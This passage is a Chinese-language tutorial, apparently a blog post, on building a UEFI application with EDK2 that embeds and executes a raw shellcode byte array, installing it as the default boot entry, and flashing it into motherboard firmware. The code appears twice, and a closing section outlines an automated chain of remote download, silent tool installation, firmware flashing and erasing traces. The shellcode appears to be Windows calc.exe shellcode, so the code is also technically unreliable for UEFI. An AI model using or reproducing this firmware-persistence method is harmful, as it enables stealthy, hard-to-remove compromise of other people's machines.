* 通过UEFI更新工具或主板制造商提供的BIOS更新工具将原始固件备份到一个外部存储设备。

## 3. 准备修改工具

为了修改UEFI固件，您需要使用一些开发工具：

* **EDK2**（TianoCore）：这是一个开源的UEFI开发框架，允许您修改、编译和部署UEFI固件。它是修改UEFI固件的标准工具集。

* 下载和设置EDK2工具：[EDK2项目主页](https://github.com/tianocore/edk2)

* **UEFI Shell**：UEFI Shell提供了命令行接口，用于在UEFI环境中运行脚本和程序。
* **UEFI Flash工具**：用于将修改后的固件烧录到主板上的闪存芯片中。常用的工具有：

* `afuwin`（适用于AMI BIOS）
* `fpt`（适用于Intel固件）

## 4. 编写UEFI程序来执行Shellcode

UEFI固件可以通过`.efi`文件来启动程序。因此，您需要将Shellcode嵌入到一个可执行的`.efi`文件中，并将该文件设置为启动项。

### 4.1 编写UEFI启动程序

您需要编写一个UEFI程序（通常是C语言或汇编语言），将Shellcode嵌入其中，并使其在启动时执行。下面是一个简单的C语言模板，说明如何加载并执行Shellcode：

```
#include <Uefi.h>
#include <Library/UefiBootServicesTableLib.h>
#include <Library/UefiLib.h>
#include <Library/MemoryAllocationLib.h>
#include <Library/BaseMemoryLib.h>

// 定义Shellcode
unsigned char buf[] = 
    "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
    "\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
    "\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
    "\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
    "\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
    "\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
    "\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
    "\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
    "\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
    "\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
    "\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
    "\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
    "\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
    "\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
    "\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
    "\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";

EFI_STATUS
EFIAPI
UefiMain (IN EFI_HANDLE ImageHandle, IN EFI_SYSTEM_TABLE *SystemTable)
{
    EFI_STATUS Status;
    
    // 分配内存以执行shellcode
    void* exec_mem = AllocatePool(sizeof(buf));
    if (exec_mem == NULL) {
        Print(L"Memory allocation failed!
");
        return EFI_OUT_OF_RESOURCES;
    }

    // 将shellcode复制到分配的内存
    CopyMem(exec_mem, buf, sizeof(buf));

    // 执行Shellcode
    ((void (*)())exec_mem)();

    return EFI_SUCCESS;
}
```

### 4.2 编译UEFI程序+环境部署

#### 步骤 1：下载和配置EDK2工具链

1. **安装依赖软件** 您需要在Windows或Linux环境下安装一些必要的工具。具体依赖项会根据操作系统的不同而有所不同。

* **Windows上**:

* **Git**：用于从GitHub克隆`EDK2`源代码。
* **Visual Studio**：`EDK2`要求使用Microsoft的Visual Studio编译代码。
* **Python**：用于执行`EDK2`构建脚本。
* **NASM**：用于汇编程序的编译（如果您有汇编代码）。

**安装过程：**

1. [GitforWindows](https://git-scm.com/)

1. [VisualStudio](https://visualstudio.microsoft.com/downloads/)（选择"Desktop development with C++"）
2. 安装 [Python](https://www.python.org/downloads/) 3.x版本。
3. 下载并安装 [NASM](https://www.nasm.us/)（如果需要）。

* **Linux上**:

* 使用以下命令安装必要的依赖：

```
sudo apt update
sudo apt install build-essential gcc make git python3 python3-pip nasm
```

2. **克隆EDK2源代码**

打开命令行，运行以下命令将`EDK2`源代码克隆到您的计算机上：

```
git clone https://github.com/tianocore/edk2.git
```

这会将整个`EDK2`项目下载到您的本地机器,*注意basetools文件夹*



3. **设置开发环境**

进入克隆的`edk2`目录并设置开发环境：

* **Windows上**:

```
 C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\Common7\Tools\VsDevCmd.bat
```

1. 打开"Developer Command Prompt for Visual Studio"（在开始菜单中可以找到）。
2. 进入`edk2`目录：

```
cd path\to\edk2
```

c. 运行以下命令来设置构建环境（确保已安装Visual Studio和Python）：

```
edksetup.bat
```

* **Linux上**:

1. 进入`edk2`目录：

```
cd path/to/edk2
```

b. 运行以下命令来设置构建环境：

```
source edksetup.sh
```

4. **安装Python依赖**

`EDK2`使用Python来执行构建脚本。您需要通过`pip`安装一些Python依赖：

```
pip install -r pip-requirements.txt
```

这将安装`EDK2`编译所需的所有Python库。



===================================================================

不会装的看这里[教程](https://blog.csdn.net/weixin_53362286/article/details/140319206)

项目文件是不全的，你需要手动定位每一个缺失的文件，单独下载，解压到缺失目录下，这个坑我帮你们踩了..

需要下载的我放在文章最开头

===================================================================

#### 步骤 2：创建您的UEFI程序

现在，我们可以开始编写UEFI程序，您可以将您的Shellcode嵌入到UEFI程序中。

1. **创建一个新的UEFI项目**

在`edk2`目录下，创建一个新的UEFI应用程序项目。例如，您可以在`edk2`的`Sample`目录中创建一个新的应用程序。

* 在`edk2`目录下创建一个`MyShellcodeApp`目录：

```
mkdir MyShellcodeApp
cd MyShellcodeApp
```

* 创建一个C源文件（例如，`MyShellcodeApp.c`），并将Shellcode嵌入到该源文件中。以下是一个简单的模板，您可以根据自己的需要进行修改：

```
#include <Uefi.h>
#include <Library/UefiBootServicesTableLib.h>
#include <Library/UefiLib.h>
#include <Library/MemoryAllocationLib.h>
#include <Library/BaseMemoryLib.h>

// 定义Shellcode
unsigned char buf[] = 
    "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
    "\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
    "\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
    "\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
    "\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
    "\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
    "\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
    "\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
    "\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
    "\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
    "\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
    "\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
    "\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
    "\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
    "\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
    "\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";

EFI_STATUS
EFIAPI
UefiMain (IN EFI_HANDLE ImageHandle, IN EFI_SYSTEM_TABLE *SystemTable)
{
    EFI_STATUS Status;
    
    // 分配内存以执行shellcode
    void* exec_mem = AllocatePool(sizeof(buf));
    if (exec_mem == NULL) {
        Print(L"Memory allocation failed!
");
        return EFI_OUT_OF_RESOURCES;
    }

    // 将shellcode复制到分配的内存
    CopyMem(exec_mem, buf, sizeof(buf));

    // 执行Shellcode
    ((void (*)())exec_mem)();

    return EFI_SUCCESS;
}
```

2. **修改**`***.inf**`**文件**

在`edk2`中，每个UEFI应用程序项目都有一个`*.inf`文件，用于定义该项目的构建选项。您需要在项目目录下创建一个`MyShellcodeApp.inf`文件，内容类似于：

```
[Defines]
  INF_VERSION                    = 0x00010005
  BASE_NAME                       = TestShellcode
  FILE_GUID                       = D1C03320-FAE6-466A-9E12-71F2F8DA79EC
  MODULE_TYPE                     = UEFI_APPLICATION
  PLATFORM_NAME                   = UEFI
  VERSION_STRING                  = 1.0
  TARGET_ARCH                     = IA32   
  TOOLCHAIN                       = VS2022

```

这个`inf`文件会告诉`EDK2`如何编译和链接应用程序。

3. **如果必要，修改E:\EDK\EmulatorPkg路径下的EmulatorPkg.dsc**

改为:

```

[Components]
 E:\EDK\test1\test1.inf
 E:\EDK\MdeModulePkg\Universal\StatusCodeHandler\Pei\StatusCodeHandlerPei.inf
 E:\EDK\MdeModulePkg\Universal\ReportStatusCodeRouter\Pei\ReportStatusCodeRouterPei.inf
 E:\EDK\MdeModulePkg\Universal\PCD\Pei\Pcd.inf
 E:\EDK\MdeModulePkg\Universal\PCD\Dxe\Pcd.inf
 E:\EDK\MdeModulePkg\Universal\Metronome\Metronome.inf
 E:\EDK\EmulatorPkg\Sec\Sec.inf
 E:\EDK\MdeModulePkg\Core\Pei\PeiMain.inf
 E:\EDK\EmulatorPkg\BootModePei\BootModePei.inf
 E:\EDK\EmulatorPkg\AutoScanPei\AutoScanPei.inf
 E:\EDK\EmulatorPkg\FirmwareVolumePei\FirmwareVolumePei.inf
 E:\EDK\EmulatorPkg\FlashMapPei\FlashMapPei.inf
 E:\EDK\EmulatorPkg\ThunkPpiToProtocolPei\ThunkPpiToProtocolPei.inf
 E:\EDK\MdeModulePkg\Universal\FaultTolerantWritePei\FaultTolerantWritePei.inf
 E:\EDK\MdeModulePkg\Universal\Variable\Pei\VariablePei.inf
 E:\EDK\MdeModulePkg\Core\DxeIplPeim\DxeIpl.inf
 E:\EDK\MdeModulePkg\Core\Dxe\DxeMain.inf
 E:\EDK\MdeModulePkg\Universal\ReportStatusCodeRouter\RuntimeDxe\ReportStatusCodeRouterRuntimeDxe.inf
 E:\EDK\MdeModulePkg\Universal\StatusCodeHandler\RuntimeDxe\StatusCodeHandlerRuntimeDxe.inf
 E:\EDK\EmulatorPkg\RealTimeClockRuntimeDxe\RealTimeClock.inf
 E:\EDK\EmulatorPkg\ResetRuntimeDxe\Reset.inf
 E:\EDK\MdeModulePkg\Core\RuntimeDxe\RuntimeDxe.inf
 E:\EDK\EmulatorPkg\FvbServicesRuntimeDxe\FvbServicesRuntimeDxe.inf
 E:\EDK\MdeModulePkg\Universal\SecurityStubDxe\SecurityStubDxe.inf
 E:\EDK\MdeModulePkg\Universal\EbcDxe\EbcDxe.inf
 E:\EDK\MdeModulePkg\Universal\MemoryTest\NullMemoryTestDxe\NullMemoryTestDxe.inf
 E:\EDK\EmulatorPkg\EmuThunkDxe\EmuThunk.inf
 E:\EDK\EmulatorPkg\CpuRuntimeDxe\Cpu.inf
 E:\EDK\MdeModulePkg\Universal\FaultTolerantWriteDxe\FaultTolerantWriteDxe.inf
 E:\EDK\EmulatorPkg\PlatformSmbiosDxe\PlatformSmbiosDxe.inf 
 E:\EDK\EmulatorPkg\TimerDxe\Timer.inf
 E:\EDK\MdeModulePkg\Universal\Variable\RuntimeDxe\VariableRuntimeDxe.inf
 E:\EDK\MdeModulePkg\Universal\WatchdogTimerDxe\WatchdogTimer.inf
 E:\EDK\MdeModulePkg\Universal\MonotonicCounterRuntimeDxe\MonotonicCounterRuntimeDxe.inf
 E:\EDK\MdeModulePkg\Universal\CapsuleRuntimeDxe\CapsuleRuntimeDxe.inf
 E:\EDK\MdeModulePkg\Universal\Console\ConPlatformDxe\ConPlatformDxe.inf 
 E:\EDK\MdeModulePkg\Universal\Console\ConSplitterDxe\ConSplitterDxe.inf
 E:\EDK\MdeModulePkg\Universal\Console\GraphicsConsoleDxe\GraphicsConsoleDxe.inf
 E:\EDK\MdeModulePkg\Universal\SerialDxe\SerialDxe.inf
 E:\EDK\MdeModulePkg\Universal\DevicePathDxe\DevicePathDxe.inf
 E:\EDK\MdeModulePkg\Universal\Console\TerminalDxe\TerminalDxe.inf
 E:\EDK\MdeModulePkg\Universal\DevicePathDxe\DevicePathDxe.inf
 E:\EDK\MdeModulePkg\Universal\Disk\DiskIoDxe\DiskIoDxe.inf
 E:\EDK\MdeModulePkg\Universal\Disk\PartitionDxe\PartitionDxe.inf
 E:\EDK\MdeModulePkg\Universal\Disk\UnicodeCollation\EnglishDxe\EnglishDxe.inf
 E:\EDK\MdeModulePkg\Bus\Pci\PciBusDxe\PciBusDxe.inf
 E:\EDK\MdeModulePkg\Bus\Scsi\ScsiBusDxe\ScsiBusDxe.inf
 E:\EDK\MdeModulePkg\Bus\Scsi\ScsiDiskDxe\ScsiDiskDxe.inf
 E:\EDK\MdeModulePkg\Universal\SmbiosDxe\SmbiosDxe.inf
 E:\EDK\EmulatorPkg\EmuBusDriverDxe\EmuBusDriverDxe.inf
 E:\EDK\EmulatorPkg\EmuGopDxe\EmuGopDxe.inf
 E:\EDK\EmulatorPkg\EmuSimpleFileSystemDxe\EmuSimpleFileSystemDxe.inf 
 E:\EDK\EmulatorPkg\EmuBlockIoDxe\EmuBlockIoDxe.inf
 E:\EDK\EmulatorPkg\EmuSnpDxe\EmuSnpDxe.inf
 E:\EDK\MdeModulePkg\Universal\HiiDatabaseDxe\HiiDatabaseDxe.inf
 E:\EDK\MdeModulePkg\Universal\DisplayEngineDxe\DisplayEngineDxe.inf
 E:\EDK\MdeModulePkg\Universal\SetupBrowserDxe\SetupBrowserDxe.inf
 E:\EDK\MdeModulePkg\Universal\BdsDxe\BdsDxe.inf 
 E:\EDK\MdeModulePkg\Universal\PrintDxe\PrintDxe.inf
 E:\EDK\MdeModulePkg\Logo\LogoDxe.inf
 E:\EDK\MdeModulePkg\Universal\LoadFileOnFv2\LoadFileOnFv2.inf
 E:\EDK\MdeModulePkg\Application\UiApp\UiApp.inf 
 E:\EDK\MdeModulePkg\Application\BootManagerMenuApp\BootManagerMenuApp.inf
 E:\EDK\MdeModulePkg\Universal\DriverSampleDxe\DriverSampleDxe.inf
 E:\EDK\SecurityPkg\RandomNumberGenerator\RngDxe\RngDxe.inf
 E:\EDK\SecurityPkg\Hash2DxeCrypto\Hash2DxeCrypto.inf
 E:\EDK\ShellPkg\DynamicCommand\TftpDynamicCommand\TftpDynamicCommand.inf
 E:\EDK\FatPkg\EnhancedFatDxe\Fat.inf
 E:\EDK\ShellPkg\Application\Shell\Shell.inf

[Defines]
  PLATFORM_NAME                  = EmulatorPkg
  PLATFORM_GUID                  = 05FD064D-1073-E844-936C-A0E16317107D
  PLATFORM_VERSION               = 0.3
  DSC_SPECIFICATION              = 0x00010005
  OUTPUT_DIRECTORY               = Build/Emulator$(ARCH)

  SUPPORTED_ARCHITECTURES        = X64|IA32
  BUILD_TARGETS                  = DEBUG|RELEASE|NOOPT
  SKUID_IDENTIFIER               = DEFAULT
  FLASH_DEFINITION               = EmulatorPkg/EmulatorPkg.fdf

  DEFINE REDFISH_ENABLE = FALSE

[SkuIds]
  0|DEFAULT

!include MdePkg/MdeLibs.dsc.inc

[LibraryClasses]
  PcdLib|MdePkg\Library\PcdLib\PcdLib.inf
  PeiCoreEntryPoint|MdePkg/Library/PeiCoreEntryPoint/PeiCoreEntryPoint.inf
  PeimEntryPoint|MdePkg/Library/PeimEntryPoint/PeimEntryPoint.inf
  DxeCoreEntryPoint|MdePkg/Library/DxeCoreEntryPoint/DxeCoreEntryPoint.inf
  UefiDriverEntryPoint|MdePkg/Library/UefiDriverEntryPoint/UefiDriverEntryPoint.inf
  UefiApplicationEntryPoint|MdePkg/Library/UefiApplicationEntryPoint/UefiApplicationEntryPoint.inf

  BaseLib|MdePkg/Library/BaseLib/BaseLib.inf
  SynchronizationLib|MdePkg/Library/BaseSynchronizationLib/BaseSynchronizationLib.inf
  PrintLib|MdePkg/Library/BasePrintLib/BasePrintLib.inf
  CacheMaintenanceLib|MdePkg/Library/BaseCacheMaintenanceLib/BaseCacheMaintenanceLib.inf
  PeCoffLib|MdePkg/Library/BasePeCoffLib/BasePeCoffLib.inf
  PeCoffGetEntryPointLib|MdePkg/Library/BasePeCoffGetEntryPointLib/BasePeCoffGetEntryPointLib.inf
  BaseMemoryLib|MdePkg/Library/BaseMemoryLib/BaseMemoryLib.inf
  FrameBufferBltLib|MdeModulePkg/Library/FrameBufferBltLib/FrameBufferBltLib.inf

  UefiBootServicesTableLib|MdePkg/Library/UefiBootServicesTableLib/UefiBootServicesTableLib.inf
  UefiRuntimeServicesTableLib|MdePkg/Library/UefiRuntimeServicesTableLib/UefiRuntimeServicesTableLib.inf
  UefiRuntimeLib|MdePkg/Library/UefiRuntimeLib/UefiRuntimeLib.inf
  UefiLib|MdePkg/Library/UefiLib/UefiLib.inf
  UefiHiiServicesLib|MdeModulePkg/Library/UefiHiiServicesLib/UefiHiiServicesLib.inf
  HiiLib|MdeModulePkg/Library/UefiHiiLib/UefiHiiLib.inf
  DevicePathLib|MdePkg/Library/UefiDevicePathLib/UefiDevicePathLib.inf
  UefiDecompressLib|MdePkg/Library/BaseUefiDecompressLib/BaseUefiDecompressLib.inf

  PeiServicesLib|MdePkg/Library/PeiServicesLib/PeiServicesLib.inf
  DxeServicesLib|MdePkg/Library/DxeServicesLib/DxeServicesLib.inf
  DxeServicesTableLib|MdePkg/Library/DxeServicesTableLib/DxeServicesTableLib.inf
  SmbiosLib|EmulatorPkg/Library/SmbiosLib/SmbiosLib.inf


  UefiScsiLib|MdePkg/Library/UefiScsiLib/UefiScsiLib.inf
  OemHookStatusCodeLib|MdeModulePkg/Library/OemHookStatusCodeLibNull/OemHookStatusCodeLibNull.inf
  BootLogoLib|MdeModulePkg/Library/BootLogoLib/BootLogoLib.inf
  FileExplorerLib|MdeModulePkg/Library/FileExplorerLib/FileExplorerLib.inf
  UefiBootManagerLib|MdeModulePkg/Library/UefiBootManagerLib/UefiBootManagerLib.inf
  BmpSupportLib|MdeModulePkg/Library/BaseBmpSupportLib/BaseBmpSupportLib.inf
  SafeIntLib|MdePkg/Library/BaseSafeIntLib/BaseSafeIntLib.inf
  CustomizedDisplayLib|MdeModulePkg/Library/CustomizedDisplayLib/CustomizedDisplayLib.inf
  SecurityManagementLib|MdeModulePkg/Library/DxeSecurityManagementLib/DxeSecurityManagementLib.inf
  TimerLib|MdePkg/Library/BaseTimerLibNullTemplate/BaseTimerLibNullTemplate.inf
  SerialPortLib|MdePkg/Library/BaseSerialPortLibNull/BaseSerialPortLibNull.inf
  CapsuleLib|MdeModulePkg/Library/DxeCapsuleLibNull/DxeCapsuleLibNull.inf

  PlatformBootManagerLib|EmulatorPkg/Library/PlatformBmLib/PlatformBmLib.inf
  KeyMapLib|EmulatorPkg/Library/KeyMapLibNull/KeyMapLibNull.inf
  !if $(REDFISH_ENABLE) == TRUE
    RedfishPlatformHostInterfaceLib|EmulatorPkg/Library/RedfishPlatformHostInterfaceLib/RedfishPlatformHostInterfaceLib.inf
    RedfishPlatformCredentialLib|EmulatorPkg/Library/RedfishPlatformCredentialLib/RedfishPlatformCredentialLib.inf
  !endif

  DebugPrintErrorLevelLib|MdePkg/Library/BaseDebugPrintErrorLevelLib/BaseDebugPrintErrorLevelLib.inf
  PerformanceLib|MdePkg/Library/BasePerformanceLibNull/BasePerformanceLibNull.inf
  DebugAgentLib|MdeModulePkg/Library/DebugAgentLibNull/DebugAgentLibNull.inf
  PeiServicesTablePointerLib|EmulatorPkg/Library/PeiServicesTablePointerLibMagicPage/PeiServicesTablePointerLibMagicPage.inf
  DebugLib|MdeModulePkg/Library/PeiDxeDebugLibReportStatusCode/PeiDxeDebugLibReportStatusCode.inf
  LockBoxLib|MdeModulePkg/Library/LockBoxNullLib/LockBoxNullLib.inf
  CpuExceptionHandlerLib|MdeModulePkg/Library/CpuExceptionHandlerLibNull/CpuExceptionHandlerLibNull.inf
  TpmMeasurementLib|MdeModulePkg/Library/TpmMeasurementLibNull/TpmMeasurementLibNull.inf
  VarCheckLib|MdeModulePkg/Library/VarCheckLib/VarCheckLib.inf
  VariablePolicyLib|MdeModulePkg/Library/VariablePolicyLib/VariablePolicyLibRuntimeDxe.inf
  VariablePolicyHelperLib|MdeModulePkg/Library/VariablePolicyHelperLib/VariablePolicyHelperLib.inf
  VariableFlashInfoLib|MdeModulePkg/Library/BaseVariableFlashInfoLib/BaseVariableFlashInfoLib.inf
  SortLib|MdeModulePkg/Library/BaseSortLib/BaseSortLib.inf
  ShellLib|ShellPkg/Library/UefiShellLib/UefiShellLib.inf
  FileHandleLib|MdePkg/Library/UefiFileHandleLib/UefiFileHandleLib.inf
  ImagePropertiesRecordLib|MdeModulePkg/Library/ImagePropertiesRecordLib/ImagePropertiesRecordLib.inf
  RngLib|MdeModulePkg/Library/BaseRngLibTimerLib/BaseRngLibTimerLib.inf
  IntrinsicLib|CryptoPkg/Library/IntrinsicLib/IntrinsicLib.inf
  OpensslLib|CryptoPkg/Library/OpensslLib/OpensslLibCrypto.inf
  BaseCryptLib|CryptoPkg/Library/BaseCryptLib/BaseCryptLib.inf

!if $(SECURE_BOOT_ENABLE) == TRUE
  PlatformSecureLib|SecurityPkg/Library/PlatformSecureLibNull/PlatformSecureLibNull.inf
  AuthVariableLib|SecurityPkg/Library/AuthVariableLib/AuthVariableLib.inf
  SecureBootVariableLib|SecurityPkg/Library/SecureBootVariableLib/SecureBootVariableLib.inf
  PlatformPKProtectionLib|SecurityPkg/Library/PlatformPKProtectionLibVarPolicy/PlatformPKProtectionLibVarPolicy.inf
  SecureBootVariableProvisionLib|SecurityPkg/Library/SecureBootVariableProvisionLib/SecureBootVariableProvisionLib.inf
!else
  AuthVariableLib|MdeModulePkg/Library/AuthVariableLibNull/AuthVariableLibNull.inf
!endif

[LibraryClasses.common.SEC]
  PeiServicesLib|EmulatorPkg/Library/SecPeiServicesLib/SecPeiServicesLib.inf
  PcdLib|MdePkg/Library/BasePcdLibNull/BasePcdLibNull.inf
  PeCoffGetEntryPointLib|EmulatorPkg/Library/PeiEmuPeCoffGetEntryPointLib/PeiEmuPeCoffGetEntryPointLib.inf
  PeCoffExtraActionLib|EmulatorPkg/Library/PeiEmuPeCoffExtraActionLib/PeiEmuPeCoffExtraActionLib.inf
  SerialPortLib|EmulatorPkg/Library/PeiEmuSerialPortLib/PeiEmuSerialPortLib.inf
  PpiListLib|EmulatorPkg/Library/SecPpiListLib/SecPpiListLib.inf
  DebugLib|MdePkg/Library/BaseDebugLibSerialPort/BaseDebugLibSerialPort.inf
  TimerLib|EmulatorPkg/Library/PeiTimerLib/PeiTimerLib.inf

[LibraryClasses.common.USER_DEFINED, LibraryClasses.common.BASE]
  DebugLib|MdePkg/Library/BaseDebugLibNull/BaseDebugLibNull.inf
  PeCoffExtraActionLib|MdePkg/Library/BasePeCoffExtraActionLibNull/BasePeCoffExtraActionLibNull.inf
  MemoryAllocationLib|MdePkg/Library/PeiMemoryAllocationLib/PeiMemoryAllocationLib.inf
  PcdLib|MdePkg/Library/BasePcdLibNull/BasePcdLibNull.inf
  PpiListLib|EmulatorPkg/Library/SecPpiListLib/SecPpiListLib.inf
  ThunkPpiList|EmulatorPkg/Library/ThunkPpiList/ThunkPpiList.inf
  ThunkProtocolList|EmulatorPkg/Library/ThunkProtocolList/ThunkProtocolList.inf
  PeCoffGetEntryPointLib|MdePkg/Library/BasePeCoffGetEntryPointLib/BasePeCoffGetEntryPointLib.inf
  PpiListLib|EmulatorPkg/Library/SecPpiListLib/SecPpiListLib.inf
  PeiServicesLib|EmulatorPkg/Library/SecPeiServicesLib/SecPeiServicesLib.inf
```

#### 步骤 3：编译UEFI程序

1. **选择目标架构**

在命令行中选择目标架构（x86\_64或其他架构）：

```
set TARGET_ARCH=X64
```

对于32位系统，请将`X64`替换为`IA32`。

2. **编译项目**

在项目目录中执行以下命令，开始编译：

```
build
```

`build`命令会自动读取您的`*.inf`文件，编译C源文件并生成`.efi`文件。

3. **查看编译结果**

编译完成后，您将在`Build`目录下找到生成的`.efi`文件。

### 4.3 将`.efi`文件写入EFI系统分区（ESP）

将编译好的`.efi`文件存放到EFI系统分区的合适位置。通常路径为`/EFI/Boot/bootx64.efi`（对于x64架构）。这将使得计算机每次启动时执行该程序。

* 您可以通过`diskpart`、`gparted`等工具将文件复制到EFI系统分区（ESP）。

### 4.4 使该程序成为默认引导项

在UEFI设置中，您需要将该`.efi`文件配置为计算机的默认启动项。通常，UEFI固件界面允许您通过“启动顺序”设置来选择启动项。将该程序设置为默认启动项，确保计算机开机时会自动执行。

## 5. 编写或修改现有UEFI启动项

### 修改UEFI启动菜单

#### 步骤 1：进入UEFI设置界面

1. **重启计算机**，并在启动时按下指定的键（通常是 `Del` 或 `F2`，具体取决于您的主板）进入UEFI固件设置界面。

#### 步骤 2：进入“启动管理器”或“启动顺序”设置

1. 在UEFI设置界面中，找到类似于 **“Boot”** 或 **“Boot Order”** 的选项。这是您设置系统启动项的地方。

* **Windows 系统**：在一些系统上，UEFI启动管理器可能显示为“启动管理器”或“启动选项”。
* **Linux 系统**：在一些Linux系统中，您也可以通过UEFI启动菜单进行相同的操作。

#### 步骤 3：添加新的启动项

1. 在启动菜单中，您可以选择 **“添加启动项”** 或 **“Add Boot Option”**（具体名称取决于不同的主板和UEFI版本）。

* 在弹出的界面中，您需要指定 `.efi` 文件的路径。假设您将您的 `.efi` 文件放置在 EFI 系统分区（ESP）中的 `/EFI/BOOT/yourprogram.efi`，您可以指定该路径。
* **例如**：指定路径为 `fs0:\EFI\BOOT\yourprogram.efi`，其中 `fs0:` 是指向EFI系统分区的文件系统。

### 通过UEFI Shell执行：

#### 步骤 1：进入UEFI Shell

1. **重新启动计算机**，并在启动时进入UEFI Shell（通常是在UEFI设置中选择 `Shell` 选项，或通过一个包含UEFI Shell的启动介质启动）。

* 在一些系统上，您可以使用 **UEFI Shell** 镜像（例如USB启动盘）来加载UEFI Shell。

#### 步骤 2：定位到文件所在的分区

1. 在UEFI Shell中，您需要找到存放 `.efi` 文件的分区。通过以下命令查看所有可用的文件系统：

```
fs0:
fs1:
fs2:
```

根据系统配置，您可能会看到 `fs0:`、`fs1:`、`fs2:` 等标识符。通过逐个尝试，您可以找到存放 `.efi` 文件的分区。

2. 切换到目标分区。例如，如果您的 `.efi` 文件存放在 `fs0:` 上，输入：

```
fs0:
```

#### 步骤 3：运行 `.efi` 文件

1. 进入存放 `.efi` 文件的目录，并运行它。例如，假设 `.efi` 文件存放在 `\EFI\BOOT\yourprogram.efi`，您可以使用以下命令运行它：

```
cd \EFI\BOOT
yourprogram.efi
```

这将启动您编写的 `.efi` 程序，并执行其中的操作。

## 6.自动化思路

这里我只提供把上文穿在一起一键执行的大致思路:

先编译那个C代码为efi，改远程下载或者其他保存方式，然后远程下载改UEF的I工具，安装（静默或者Clicker），然后用改UEFI的工具把efi刷到固件里，擦除痕迹.
